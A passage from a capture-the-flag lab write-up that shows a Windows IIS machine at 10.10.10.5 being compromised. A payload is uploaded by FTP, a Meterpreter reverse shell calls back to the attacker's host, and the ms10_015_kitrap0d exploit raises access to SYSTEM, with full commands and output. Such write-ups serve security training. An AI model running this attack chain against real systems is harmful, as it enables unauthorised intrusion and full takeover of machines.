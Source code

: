 Same shit, put the `.aspx` in the FTP with `ftp> put devel.aspx`.
Of course run a `msf5 > use exploit/multi/handler`, setting the correct payload and execute `http://10.10.10.5/devel.aspx` to get a reverse shell.
```
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
...
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.x.x:9999 
[*] Sending stage (176195 bytes) to 10.10.10.5
[*] Meterpreter session 12 opened (10.10.x.x:9999 -> 10.10.10.5:49161) at 2020-11-29 00:59:11 +0800
```
We got a Meterpreter shell immediately, and can skip past using `post/multi/manage/shell_to_meterpreter`.

We navigate to `%temp%` directory where this best explained by the official write up: "By default, the working directory is set to c:\windows\system32\inetsrv, which the IIS user does not have write permissions for. Navigating to c:\windows\TEMP is a good idea, as a large portion of Metasploit’s Windows privilege escalation modules require a file to be written to the target during exploitation."

We then run `ms10_015_kitrap0d` and we're done.
```
meterpreter > pwd
c:\windows\system32\inetsrv
meterpreter > cd %temp%
meterpreter > pwd
C:\Windows\TEMP
...
meterpreter > getuid
Server username: IIS APPPOOL\Web
...
msf5 > use exploit/windows/local/ms10_015_kitrap0d
...
msf5 exploit(windows/local/ms10_015_kitrap0d) > run

[*] Started reverse TCP handler on 10.10.x.x:6832 
...
[*] Meterpreter session 13 opened (10.10.x.x:6832 -> 10.10.10.5:49162) at 2020-11-29 01:00:48 +0800

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
